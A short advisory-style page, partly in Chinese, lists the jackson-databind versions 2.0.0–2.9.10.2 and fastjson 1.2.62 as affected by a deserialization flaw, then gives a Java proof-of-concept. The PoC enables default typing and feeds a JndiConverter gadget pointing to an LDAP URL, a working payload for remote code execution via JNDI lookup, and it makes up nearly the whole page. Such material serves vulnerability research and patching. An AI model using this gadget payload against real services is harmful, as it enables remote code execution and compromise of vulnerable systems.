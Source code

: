 <languages /> <translate>

漏洞影響
--------

</translate> <translate> jackson-databind 2.0.0 – 2.9.10.2

經驗證fastjson在開啟了autoType功能的情況下，影響最新的fastjson v1.2.62版本 </translate>

POC
---

    import com.fasterxml.jackson.databind.ObjectMapper;
    import java.io.IOException;

    public class Poc {
       public static void main(String args[]) {
           ObjectMapper mapper = new ObjectMapper();

           mapper.enableDefaultTyping();

           String json = "[\"org.apache.xbean.propertyeditor.JndiConverter\", {\"asText\":\"ldap://localhost:1389/ExportObject\"}]";

           try {
               mapper.readValue(json, Object.class);
           } catch (IOException e) {
               e.printStackTrace();
           }

       }
    }
